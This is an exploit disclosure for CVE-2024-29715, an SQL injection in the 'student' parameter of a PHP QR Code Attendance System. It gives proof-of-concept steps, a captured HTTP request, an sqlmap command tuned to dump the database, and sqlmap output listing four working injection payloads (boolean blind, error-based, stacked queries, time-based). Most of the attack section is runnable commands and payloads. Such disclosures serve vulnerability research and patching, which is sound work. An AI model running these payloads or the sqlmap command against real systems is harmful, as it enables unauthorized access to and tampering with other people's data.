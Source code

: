 # CVE-2024-29715 - QR Code Attendance System - SQL Injection -1
+ **Exploit Title:** CVE-2024-29715 - QR Code Attendance System - SQL Injection -1
+ **Date:** 2024-14-03
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17242/qr-code-attendance-system-using-php-and-mysql-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17242&title=QR+Code+Attendance+System+Using+PHP+and+MySQL+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-29715

## Description:
QR Code Attendance System  1.0 allows SQL Injection via the 'student' parameter in "http://localhost/qr-code-attendance-system/endpoint/delete-student.php?student=1". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/qr-code-attendance-system/masterlist.php"
+ Select any student and press the delete-student button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /qr-code-attendance-system/endpoint/delete-student.php?student=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
```

+ Use sqlmap to exploit. In sqlmap, use 'student' parameter to dump the database.
```
sqlmap -r r.txt -p student --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: student (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: student=1' RLIKE (SELECT (CASE WHEN (1502=1502) THEN 1 ELSE 0x28 END))-- nKHR

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: student=1' AND EXTRACTVALUE(8135,CONCAT(0x5c,0x71787a7171,(SELECT (ELT(8135=8135,1))),0x716b6b6271))-- LcEp

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: student=1';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: student=1' AND (SELECT 4221 FROM (SELECT(SLEEP(5)))mKvY)-- XUeE
---
[19:02:38] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[19:02:39] [INFO] fetching current database
[19:02:39] [INFO] retrieved: 'qr_attendance_db'
current database: 'qr_attendance_db'
```
+ current database: `qr_attendance_db`

![Ekran görüntüsü 2024-03-14 020459](https://github.com/BurakSevben/CVEs/assets/117217689/08735a89-cad4-4f11-8cac-715652e72bd4)
